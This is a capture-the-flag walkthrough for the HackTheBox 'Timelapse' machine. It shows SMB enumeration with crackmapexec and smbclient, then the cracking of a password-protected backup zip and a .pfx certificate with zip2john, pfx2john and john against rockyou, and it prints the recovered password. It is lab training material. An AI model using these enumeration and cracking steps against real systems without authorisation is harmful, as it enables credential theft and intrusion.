 ```bash
Unable to connect with SMB1 -- no workgroup available
```

- Let's try crackmapexec

```bash
┌──(kali㉿kali)-[~]
└─$ crackmapexec smb 10.10.11.152                                                                                                   
SMB         10.10.11.152    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
```

- Let's try to connect to the share we found with smbclient, the only we are successful is Shares `smbclient -N //10.10.11.152/Shares`

```bash
┌──(kali㉿kali)-[~]
└─$ smbclient -N //10.10.11.152/Shares  
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Oct 25 11:39:15 2021
  ..                                  D        0  Mon Oct 25 11:39:15 2021
  Dev                                 D        0  Mon Oct 25 15:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 11:48:42 2021
```

## Initial foothold

- We can take a few files out of it. Here is a list of these files

```bash
-rw-r--r-- 1 kali kali  104422 Oct 30 15:17 LAPS_Datasheet.docx
-rw-r--r-- 1 kali kali  641378 Oct 30 15:17 LAPS_OperationsGuide.docx
-rw-r--r-- 1 kali kali   72683 Oct 30 15:17 LAPS_TechnicalSpecification.docx
-rw-r--r-- 1 kali kali 1118208 Oct 30 15:16 LAPS.x64.msi
-rw-r--r-- 1 kali kali    2611 Oct 30 15:16 winrm_backup.zip
```

- The zip file is password protected. Let's try to crack it
  - `zip2john winrm_backup.zip > crackme.hash` we generate the hash from the zip with zip2john
  - Now we can try to crack it with rockyou and john.
  
```bash
john crackme.hash -wordlist=/usr/share/wordlists/rockyou.txt
┌──(kali㉿kali)-[~/Documents/timelapse]
└─$ john crackme.hash --show                                                                       
winrm_backup.zip/legacyy_dev_auth.pfx:supremelegacy:legacyy_dev_auth.pfx:winrm_backup.zip::winrm_backup.zip
```

- We get a password!
- Let's unzip the file 
- We get a pfx file `legacyy_dev_auth.pfx`
- Looks like we will have to crack another hash...
- Let's get pfx2john in our machine `wget https://raw.githubusercontent.com/sirrushoo/python/master/pfx2john.py`
- `python3 pfx2john.py legacyy_dev_auth.pfx > crackme2.hash`
- the hash I get seems odd for some reason (it has quotes and seems corrupted)
- Turns out it is not written in python so this command is better `python pfx2john.py legacyy_dev_auth.pfx > crackmeagain.hash`
- `john crackmeagain.hash -wordlist=/usr/share/wordlists/rockyou.txt` now we can try to crack it.
- We get another password
